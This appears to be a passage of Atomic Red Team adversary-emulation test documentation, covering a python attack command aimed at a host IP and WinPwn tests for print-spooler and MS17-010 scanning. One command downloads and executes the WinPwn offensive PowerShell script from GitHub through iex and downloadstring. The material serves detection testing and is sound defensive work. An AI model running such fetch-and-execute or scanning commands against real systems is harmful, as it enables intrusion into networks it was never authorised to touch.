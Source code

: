 
#### Attack Commands: Run with `powershell`! 


```powershell
python "#{filename}" -i  #{host_ip}
```




#### Dependencies:  Run with `powershell`!
##### Description: Check if python exists on the machine
##### Check Prereq Commands:
```powershell
if (python --version) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
echo "Python 3 must be installed manually"
```




<br/>
<br/>

## Atomic Test #5 - WinPwn - spoolvulnscan
Start MS-RPRN RPC Service Scan using spoolvulnscan function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 54574908-f1de-4356-9021-8053dd57439a






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
spoolvulnscan -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - MS17-10
Search for MS17-10 vulnerable Windows Servers in the domain using powerSQL function of WinPwn
